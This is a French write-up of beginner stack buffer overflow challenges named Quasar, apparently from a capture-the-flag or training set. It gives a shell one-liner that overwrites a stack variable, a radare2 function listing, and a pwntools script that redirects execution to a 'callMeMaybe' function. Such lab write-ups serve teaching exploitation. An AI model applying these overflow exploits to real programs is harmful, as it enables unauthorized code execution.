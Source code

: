 Le buffer accepte 32 caractères, si nous envoyons plus de caractere la variable target qui se trouve aussi sur la stack est modifiée.

## Quasar1

Très similaire à quasar0, la différence est que la variable target doit être égal a 0xd34db4b3.

Solution:

```bash
./quasar1 $(echo -en "TTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTT\xb3\xb4\x4d\xd3")
```

## Quasar2

Le programme nécessite ici d'appeler la fonction `callMeMaybe`, pour cela il faut trouver l'adresse de la fonction.

Avec radare2 : 

```bash
root@83e35c32f333:/pwning/quasar2# r2 ./quasar2
 -- Ceci n'est pas une r2pipe
[0x08049070]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x08049070]> afl
0x08049070    1 50           entry0
0x080490a3    1 4            fcn.080490a3
0x08049050    1 6            sym.imp.__libc_start_main
0x080490d0    4 49   -> 40   sym.deregister_tm_clones
0x08049110    4 57   -> 53   sym.register_tm_clones
0x08049150    3 33   -> 30   sym.__do_global_dtors_aux
0x08049180    1 2            entry.init0
0x08049290    1 1            sym.__libc_csu_fini
0x080490c0    1 4            sym.__x86.get_pc_thunk.bx
0x08049294    1 20           sym._fini
0x08049182    1 69           sym.callMeMaybe
0x08049040    1 6            sym.imp.puts
0x08049060    1 6            sym.imp.execve
0x08049230    4 85           sym.__libc_csu_init
0x080490b0    1 1            sym._dl_relocate_static_pie
0x080491c7    3 101          main
0x08049030    1 6            sym.imp.gets
0x08049000    3 32           sym._init
```

L'exploit : 

```python
from pwn import *

p = process("./quasar2")

flow = b"T" * 128
flow += p32(0x08049182)

p.sendline(flow)

p.interactive()
```
